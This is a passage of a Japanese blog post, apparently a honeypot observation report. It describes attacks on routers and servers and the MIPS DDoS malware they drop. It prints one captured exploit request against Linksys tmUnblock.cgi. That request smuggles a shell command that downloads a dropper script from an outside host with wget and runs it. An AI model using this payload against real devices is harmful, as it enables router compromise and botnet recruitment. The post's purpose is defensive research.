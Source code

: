 狙われた脆弱性としては以下のようなものが多くあります.  

* CVE-2012-1823
* Shell Shock
* Apache Struts関係の脆弱性
* JBoss

これらの脆弱性に共通することとして, 任意のコードが実行可能であるということです.  
脆弱性を利用してどのように攻撃されるのか, Linksys社のルーターを標的とした攻撃を見てみます.  

```
POST /tmUnblock.cgi HTTP/1.1

submit_button=&change_action=&action=&commit=&ttcp_num=2&ttcp_size=2&ttcp_ip=-h
`cd /tmp;
wget -O scaC.sh hxxp://x.x.x.x/ttp/ttp.sh;
chmod +x scaC.sh;
./scaC.sh`&StartEPI=1``
```

tmUnblock.cgiには任意のコマンドを実行可能な脆弱性があります.  
ttp.shという名前のドロッパーによって, MIPSなマルウェアが実行されます.  

```
$ file .*
.nttpd: ELF 32-bit LSB  executable, MIPS, MIPS-I version 1 (SYSV), dynamically linked (uses shared libs), stripped
.sca:   ELF 32-bit LSB  executable, MIPS, MIPS-I version 1 (SYSV), dynamically linked (uses shared libs), stripped
.sox:   ELF 32-bit LSB  executable, MIPS, MIPS-I version 1 (SYSV), dynamically linked (uses shared libs), stripped
```

マルウェアにはDDoSを発生させるためにiptablesでUDP周りの設定を変更する処理などが含まれています.  

```
$ strings .nttpd| grep INPUT   
INPUT -p udp --dport %u -j ACCEPT
INPUT -p udp --dport 9999 -j DROP
INPUT -p tcp -m multiport --dport 80,8080 -j DROP
INPUT -s 46.148.18.0/24 -j ACCEPT
INPUT -s 185.56.30.0/24 -j ACCEPT
INPUT -s 217.79.182.0/24 -j ACCEPT
INPUT -s 85.114.135.0/24 -j ACCEPT
INPUT -s 95.213.143.0/24 -j ACCEPT
INPUT -s 185.53.8.0/24 -j ACCEPT
```

### 所感

デフォルトの設定や甘い設定を狙った攻撃/スキャンは毎日のように行われています.  
また, ルーターを狙っていると思われる攻撃も多く, マルウェアもその環境で動作するようなARMやMIPSなどのものが多く利用されています.  
ルーターに脆弱性が見つかってもファームウェアが自動更新されないものがあったり, そもそもルーターの更新が必要だと知らない人もいるのではないでしょうか.  
IoTの普及が進むにつれて組み込み機器向けの攻撃も増加するのではと思います.  

最近の攻撃はDrive-by downloadが主流であること, そのためにクライアント型ハニーポットが利用されてきたがマルウェアが取れない、などの理由からハニーポットに関する研究も2010年ごろからオワコン化している印象があります.  
ですが, ダークネットにハニーポットを設置し, 観測することでマルウェアの活動傾向を把握できたりしますし, 何より攻撃者が身近にいること, どのような手法を使っているのか攻撃者を知ることができます.  
そこからどう対策をとればいいのかを考え, セキュリティ意識の改善にも繋がるのではと思います.  


